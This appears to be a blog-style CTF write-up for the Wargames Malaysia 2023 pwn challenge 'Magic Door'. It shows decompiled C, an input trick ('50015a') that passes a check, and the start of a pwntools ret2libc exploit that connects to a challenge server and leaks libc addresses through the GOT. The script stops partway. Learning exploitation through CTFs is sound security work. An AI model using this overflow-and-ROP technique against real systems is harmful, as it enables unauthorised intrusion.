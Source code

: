 ```yaml
---
title:  "WGMY 2023"
date: 2023-12-18T22:00:00+08:00
description: "Wargames Malaysia 2023 Write Ups"
---
```


For this CTF, I mainly worked on the pwn challenges as I wanted to try and learn something new :D I managed to solve 3 of the pwns and will be detailing my write up below 

# Magic Door (942)
## idea
basic ret2libc after passing the first check in the function `open_the_door`

```c
__int64 open_the_door()
{
  char s1[12]; // [rsp+0h] [rbp-10h] BYREF
  int v2; // [rsp+Ch] [rbp-4h]

  initialize();
  puts("Welcome to the Magic Door !");
  printf("Which door would you like to open? ");
  __isoc99_scanf("%11s", s1);
  getchar();
  if ( !strcmp(s1, "50015") )
    return no_door_foryou();
  v2 = atoi(s1);
  if ( v2 != 50015 )
    return no_door_foryou();
  else
    return magic_door(50015LL);
}
```

In this function, the check will fail if the string entered is exactly `50015`, and if the integers in the string is not `50015`. This means that it is possible to pass this check by appending a letter to the end of `50015`. In my solution, I used `50015a`, which passes the `strcmp` check, and also the integer check in the function.

After reaching the `magic_door` function, it is possible to exploit it as we normally do with ret2libc challenges.

## solution
```py
from pwn import *

#p = process('./magic_door')
p = remote('13.229.84.41', 10002)
context.binary = elf = ELF('./magic_door')
libc = ELF('./libc.so.6')

p.sendline(b'50015a')

payload = b'A'* 72

rop = ROP(elf)
rop.call(rop.ret[0])
rop.puts(elf.got.puts)
rop.puts(elf.got.printf)
rop.magic_door()

```